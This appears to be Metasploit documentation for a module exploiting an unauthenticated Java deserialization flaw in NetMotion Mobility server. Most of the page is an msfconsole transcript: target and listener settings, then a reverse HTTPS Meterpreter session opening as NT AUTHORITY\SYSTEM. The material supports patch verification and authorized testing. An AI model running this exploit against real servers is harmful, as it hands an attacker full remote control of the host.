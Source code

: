 ## Vulnerable Application

### Description

This module exploits an unauthenticated Java deserialization in the
NetMotion Mobility server's `MvcUtil.valueStringToObject()` method, as
invoked through the `/mobility/Menu/isLoggedOn` endpoint, to execute
code as the `SYSTEM` account.

Mobility server versions 11.x before 11.73 and 12.x before 12.02 are
vulnerable. Tested against 12.01.09045 on Windows Server 2016.

### Setup

Follow the [Mobility System Administrator Guide - v12.0x], paying
particular attention to the [Basic System Requirements for All Server
Components]. I used the `Mobility_server_12.01_Win2016_release.exe`
installer.

[Mobility System Administrator Guide - v12.0x]:
https://help.netmotionsoftware.com/support/docs/MobilityXG/1200/help/mobilityhelp.htm

[Basic System Requirements for All Server Components]:
https://help.netmotionsoftware.com/support/docs/MobilityXG/1200/help/mobilityhelp.htm#page/Mobility%2520Server%2Fintro.01.09.html%23

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Scenarios

### NetMotion Mobility 12.01.09045 on Windows Server 2016

```
msf6 > use exploit/windows/http/netmotion_mobility_mvcutil_deserialization
[*] Using configured payload windows/x64/meterpreter/reverse_https
msf6 exploit(windows/http/netmotion_mobility_mvcutil_deserialization) > options

Module options (exploit/windows/http/netmotion_mobility_mvcutil_deserialization):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The local listener hostname
   LPORT     8443             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   2   PowerShell Stager


msf6 exploit(windows/http/netmotion_mobility_mvcutil_deserialization) > set rhosts 172.16.57.3
rhosts => 172.16.57.3
msf6 exploit(windows/http/netmotion_mobility_mvcutil_deserialization) > set lhost 172.16.57.1
lhost => 172.16.57.1
msf6 exploit(windows/http/netmotion_mobility_mvcutil_deserialization) > run

[*] Started HTTPS reverse handler on https://172.16.57.1:8443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. NetMotion Mobility 12.01.09045 is unpatched.
[*] Executing windows/x64/meterpreter/reverse_https (PowerShell Stager)
[*] https://172.16.57.1:8443 handling request from 172.16.57.3; (UUID: s66tryd9) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (172.16.57.1:8443 -> 127.0.0.1) at 2021-07-08 21:25:22 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-MIUE6PRQH9F
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```
